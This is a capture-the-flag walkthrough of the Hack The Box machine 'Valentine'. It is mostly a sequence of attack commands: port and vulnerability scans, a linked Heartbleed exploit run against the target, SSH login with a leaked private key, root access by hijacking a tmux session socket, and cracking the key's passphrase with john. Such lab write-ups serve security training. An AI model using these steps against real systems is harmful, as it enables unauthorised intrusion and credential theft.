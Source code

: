 # Valentine Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fullvalentine 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226275306-eb574609-4275-4964-858c-8b147bf128df.png)

``nmap --script vuln 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226275482-d6658d91-913a-40a9-a3d5-e6f93adc279d.png)

``sslyze --heartbleed 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226279997-6049896b-91cb-4607-a47d-1ffe4535246e.png)

# ${{\color{purple}Initial Foothold}}\ $

``gobuster dir -u http://10.10.10.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/226275598-b788e58a-00c1-426f-bb9b-a7efd341a082.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/226276015-3f1bd717-17c1-4b48-9002-afe56c27a67e.png)

![image](https://user-images.githubusercontent.com/123066149/226276237-43b610ce-a170-4f7e-937a-90e61116aa3a.png)

![image](https://user-images.githubusercontent.com/123066149/226276374-46434383-bf4a-4d81-887e-c98f8e5a7a6c.png)

### I used this exploit :

https://gist.github.com/eelsivart/10174134#file-heartbleed-py

``python2.7 heartbleed.py 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226276713-88458e71-4a8f-4033-bede-d88004275522.png)


``echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d``

![image](https://user-images.githubusercontent.com/123066149/226276792-4e7158f6-deaf-4959-9e9d-3337fcf97266.png)

``chmod 600 hype.key``

![image](https://user-images.githubusercontent.com/123066149/226277154-225a9196-5d86-4915-a3ba-87b20e1e8f17.png)

``ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -i hype.key hype@10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226277251-a1b78f1e-9e9b-4940-bfce-778226663984.png)

# ${{\color{purple}Privilege Escalation}}\ $

``cat .bash_history``

![image](https://user-images.githubusercontent.com/123066149/226277399-e78d8cd9-bd24-480a-b3b9-2a4d0552002f.png)

``ps aux | grep -i tmux``

![image](https://user-images.githubusercontent.com/123066149/226277499-1ee81bd5-02f0-4be1-a646-f64cb3f179e9.png)

``ls -la /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226277620-9b7a96b0-d6f9-4bbe-82d0-9bd2c6a8bbc8.png)

``export TERM=xterm``
``tmux -S /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226277753-c73f7e1c-47b8-4385-a90c-3e6efd09b428.png)

# ${{\color{purple}Points of Improvement}}\ $

* Verify with sslyze to check if the server is vulnerable 
* It's possible to avoid ssh errors by editing the ``~/.ssh/config`` file
* Don't hesitate to replay the exploit to find the right information in memory
* Always run an ``nmap vuln script``
* Another way if there was no vuln heartbleed :

![image](https://user-images.githubusercontent.com/123066149/226278942-de8cf395-1dc1-411b-a403-6d6256e2d706.png)

``ssh2john hype.key > hype_key.hash``

![image](https://user-images.githubusercontent.com/123066149/226279015-5b346708-eb1e-4581-af77-29d4ccac8c97.png)

![image](https://user-images.githubusercontent.com/123066149/226279076-6cf2dffb-63de-49c6-b37b-265fd78f7497.png)

``john --wordlist=/home/kali/Downloads/rockyou.txt hype_key.hash``

![image](https://user-images.githubusercontent.com/123066149/226279210-1f4135c4-832f-4223-9ef4-c227ace94b59.png)

``john --show hype_key.hash``

![image](https://user-images.githubusercontent.com/123066149/226279299-68529ded-91c1-4c32-851c-65bfcc6510cf.png)

